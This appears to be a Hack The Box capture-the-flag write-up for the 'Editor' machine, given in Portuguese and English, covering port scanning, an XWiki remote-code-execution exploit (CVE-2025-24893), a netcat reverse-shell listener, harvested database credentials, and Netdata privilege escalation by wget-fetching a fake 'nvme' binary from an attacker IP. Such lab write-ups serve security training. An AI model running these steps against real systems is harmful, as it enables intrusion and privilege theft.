 # Editor HTB - Writeup

## Escaneamento de portas

``` bash
./malwaricon.sh
Enter domain: 10.10.11.80
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
9999/tcp open  abyss?
```

...

## Exploração do CVE-2025-24893 (XWiki RCE)

Foi encontrado o CVE: https://github.com/Artemir7/CVE-2025-24893-EXP

Execução bem-sucedida:

``` bash
python CVE-2025-24893.py -u http://wiki.editor.htb -c whoami
[+] Command Output:
xwiki
```

Reverse shell enviada:

``` bash
nc -lvnp 4444
```

## Credenciais do banco de dados

No arquivo `/etc/wiki/hibernate.cfg.xml` foram encontradas credenciais:

    username: xwiki
    password: theEd1t0rTeam99

## Acesso inicial como Oliver

``` bash
oliver@editor:~$ cat user.txt
2739c3049d79c4f20eff7db04ea331f7
```

## Escalada de privilégios via Netdata

A porta 19999 estava rodando **Netdata**. Após abrir um túnel SSH e
acessar a interface web, foi identificado que a versão era vulnerável ao
CVE-2024-32019.

Exploração com binário falso `nvme`:

``` bash
wget http://10.10.15.14:5000/nvme
chmod +x nvme
```

------------------------------------------------------------------------

------------------------------------------------------------------------

# Editor HTB - Writeup (English)

## Port Scan

``` bash
nmap -sV 10.10.11.80
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
9999/tcp open  abyss?
```

## Exploitation of CVE-2025-24893 (XWiki RCE)

Found CVE: https://github.com/Artemir7/CVE-2025-24893-EXP

Successful execution:

``` bash
python CVE-2025-24893.py -u http://wiki.editor.htb -c whoami
[+] Command Output:
xwiki
```

Reverse shell payload:

``` bash
nc -lvnp 4444
```

## Database credentials

Found in `/etc/wiki/hibernate.cfg.xml`:

    username: xwiki
    password: theEd1t0rTeam99

## Initial access as Oliver

``` bash
oliver@editor:~$ cat user.txt
2739c3049d79c4f20eff7db04ea331f7
```

## Privilege Escalation via Netdata

Port 19999 was running **Netdata**. After tunneling SSH and accessing
the web UI, it was identified as vulnerable to CVE-2024-32019.

Exploit using fake `nvme` binary:

``` bash
wget http://10.10.15.14:5000/nvme
chmod +x nvme
```

------------------------------------------------------------------------
